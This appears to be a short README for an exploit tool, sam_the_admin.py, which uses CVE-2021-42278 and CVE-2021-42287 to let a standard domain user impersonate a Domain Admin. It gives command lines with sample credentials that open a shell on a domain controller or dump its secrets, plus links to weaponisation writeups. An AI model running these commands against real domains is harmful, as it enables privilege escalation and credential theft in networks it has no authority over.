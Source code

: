 Exploiting CVE-2021-42278 and CVE-2021-42287 to impersonate DA from standard domain user 

usage:

$ python3 sam_the_admin.py "jas502n/hr:Admin@12" -dc-ip 172.16.242.135 -shell

or

$ python3 sam_the_admin.py "jas502n/John:Admin@123" -dc-ip 172.16.242.135 -dump   

### Known issues
- it will not work outside kali , i will update it later on :)

#### Check out 
- [CVE-2021-42287/CVE-2021-42278 Weaponisation ](https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html)
- [sAMAccountName spoofing](https://www.thehacker.recipes/ad/movement/kerberos/samaccountname-spoofing)
